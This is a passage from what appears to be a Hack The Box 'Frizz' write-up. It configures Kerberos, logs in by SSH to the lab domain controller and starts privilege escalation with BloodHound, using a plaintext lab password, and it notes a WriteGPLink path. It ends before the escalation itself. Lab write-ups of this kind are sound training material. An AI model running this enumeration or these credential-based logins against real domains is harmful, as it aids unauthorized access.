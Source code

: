 We also need to set our `/etc/krb5.conf` file with this:

```conf
[libdefaults]
    default_realm = FRIZZ.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    forwardable = true
[realms]
    FRIZZ.HTB = {
        kdc = frizz.htb
        admin_server = frizz.htb
    }

[domain_realm]
    .frizz.htb = FRIZZ.HTB
    frizz.htb = FRIZZ.HTB
```

Now we can do;

```
ssh -o PreferredAuthentications=gssapi-with-mic -o GSSAPIAuthentication=yes f.frizzle@frizz.htb -K
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616175003.png)

Got our shell, let's proceed to privilege escalation.



# PRIVILEGE ESCALATION
---

So, we already got credentials and access to ssh, what we're missing is one of the most important steps when doing an AD machine, using bloodhound, let's do it:

```python
bloodhound-python -u 'f.frizzle' -p 'Jenni_Luvs_Magic23' -d frizz.htb -dc frizzdc.frizz.htb -ns 10.10.11.60 -c all --zip
```

As I always recommend:

> Note: If you want to flush all previous data from bloodhound, you can go to `http://localhost:7474` and perform the following query:

```
MATCH (n)
DETACH DELETE n
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616175626.png)

An interesting finding is that `M.SCHOOLBUS` owns a bunch of users, and got `WriteGPLink` over domain controllers and class_frizz:
